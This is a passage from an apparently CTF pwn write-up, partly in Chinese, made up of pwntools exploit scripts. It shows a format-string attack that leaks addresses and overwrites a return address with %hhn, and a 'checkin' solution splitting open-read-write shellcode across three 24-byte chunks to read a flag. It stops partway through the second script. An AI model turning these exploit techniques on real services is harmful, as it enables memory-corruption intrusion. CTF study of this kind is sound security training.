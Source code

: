 ```python
p.send(payload)
payload =b'aaa%7$hhn'
p.recvuntil(b'contents:')
p.send(payload)
bkd=0x82
p.sendafter(b'You can',b'aaaaaaaa%45$pbbbb%7$p')#8
p.recvuntil(b'aaaaaaaa')
addr=int(p.recv(14),16)
log.debug(hex(addr))
pie=addr-0x1715
bkd=pie+0x1782+1
p.recvuntil('bbbb')
addr=int(p.recv(14),16)
ret=addr+40
log.debug(hex(ret))
payload=('%{}c%16$hhn'.format(bkd&0xff).encode()).ljust(48,b'a')+p64(ret)
p.sendafter(b'You can',payload)#8
p.interactive()
```

### 2.checkin
shellcode空间被分为3个24字节，试了下shellcraft生成的orw刚好72字节，因此手写个短一点的肯定是能塞下3个jmp的。orw一个部分写不下可以拆到下一个部分。
```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
#p=process('./pwn')
p=remote('192.168.211.1',14333)
libc = ELF("./libc.so.6")
elf = ELF('./pwn')
#gdb.attach(p,'b *$rebase(0x15ba)')
#pause()
bss=elf.bss()
shellcode1=asm('''
mov rbx,0x67616c662f2e 
push rbx
push rsp
pop rdi
xor esi, esi
mov al, 2
add rdx,0x20
jmp rdx


''')
shellcode2=asm('''
xor edx,edx
syscall
mov rdi,3              
mov rsi,r12        
mov rdx,0x100               
            
jmp r9
''')
shellcode3=asm('''
xor eax,eax  
syscall
mov edi,1                   
mov rsi,r12
mov rdx,0x100              
mov al,1                   
syscall
''')
p.send(shellcode1)
```